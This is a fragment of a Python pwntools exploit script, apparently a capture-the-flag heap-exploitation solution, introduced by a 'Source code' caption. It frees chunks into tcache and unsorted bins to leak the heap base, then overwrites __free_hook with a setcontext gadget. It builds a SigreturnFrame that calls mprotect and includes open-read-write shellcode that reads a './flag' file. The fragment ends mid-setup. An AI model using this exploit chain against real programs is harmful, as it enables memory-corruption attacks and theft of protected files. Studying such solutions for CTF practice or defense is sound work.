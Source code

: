 ```python
Add('a' * 0x300 + '\x00', 5000)
Add('a' * 0x3c0 + '\x00', 5001) 
Add('a' * 0x3c0 + '\x00', 5002) 
Dele(5001)  # tcache[0x3d0]
Dele(1517)  # free to unsortedbin 
Xor()
# now = 0
# Add('b' * 0x70 + '\x00', 201)
Exchange(201, 1000, 0)
Xor()
# now = 1
Dele(201)  # note free to fastbin,note's confession to tcache
Xor()
# now = 0
Show(201)

sh.recvuntil('\n')
heapbase = u64(sh.recvuntil('\n', drop = True).ljust(8, '\x00')) - 0x21e10
log.success('heapbase: ' + hex(heapbase))
#gdb.attach(sh)
free_hook = libc.symbols['__free_hook'] + libcbase
magic_addr = libcbase + libc.symbols['setcontext'] + 61
mprotect_addr = libcbase + libc.symbols['mprotect']
# Exchange_Addr = libcbase + 0x1547a0
Exchange_Addr = libcbase + 0x0000000000154930 # context+61
Edit(201, p64(free_hook)[0:6])

Add('a' * 0x3c0 + '\x00', 201)

Add('b' * 0x3c0 + '\x00', 202)

Edit(202, p64(Exchange_Addr))

# orw
shellcode = ''' 
mov rax,0x67616c662f2e
push rax
mov rdi,rsp
mov rsi,0
mov rdx,0
mov rax,2
syscall
mov rdi,rax
mov rsi,rsp
mov rdx,1024
mov rax,0
syscall
mov rdi,1
mov rsi,rsp
mov rdx,rax
mov rax,1
syscall
mov rdi,0
mov rax,60
syscall
'''

frame = SigreturnFrame()
frame.rsp = heapbase + 0x10630 + 0x150
frame.rdi = heapbase
frame.rsi = 0x20000
frame.rdx = 4 | 2 | 1
frame.rip = mprotect_addr
```
